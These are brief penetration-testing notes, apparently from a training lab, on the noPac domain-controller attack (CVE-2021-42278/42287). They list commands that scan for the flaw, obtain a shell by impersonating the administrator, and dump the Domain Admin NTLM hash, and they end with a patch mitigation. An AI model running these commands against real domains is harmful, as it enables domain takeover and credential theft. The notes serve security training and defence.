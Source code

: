 ```powershell
> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
```

```bash
netexec smb 192.168.170.175 -u adot -p eight -M nopac
```
[POC](https://github.com/Ridter/noPac)
```bash
python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```
Shell
```bash
python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```
Dump NTLM hash of `Domain Admin`
```bash
python noPac.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate Administrator -dump -just-dc-user Administrator -use-ldap
```
### Mitigations
Patch [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287)
